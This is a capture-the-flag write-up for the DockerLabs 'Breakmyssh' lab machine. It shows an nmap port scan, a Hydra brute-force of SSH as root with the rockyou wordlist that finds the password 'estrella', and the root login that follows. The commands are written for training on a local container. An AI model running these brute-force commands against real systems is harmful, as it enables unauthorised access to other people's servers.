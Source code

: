 #Breakmyssh DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

We start with a port scan with nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 20:55 CEST
Nmap scan report for 172.17.0.3
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.18 seconds

```

We see only one ssh server with a version of OpenSSH 7.7.
We tried a brute force attack with Hydra on the user "root" to test and found that the password is "estrella".:

```shell
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3/ -t 5
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).


Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 21:24:39
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344400 login tries (l:1/p:14344400), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.3:22/
[22][ssh] host: 172.17.0.3   login: root   password: estrella
```
We enter the server with these data:

```shell
└─$ ssh root@172.17.0.3
```

```shell
root@f83a9e7115cf:~# whoami
root
```
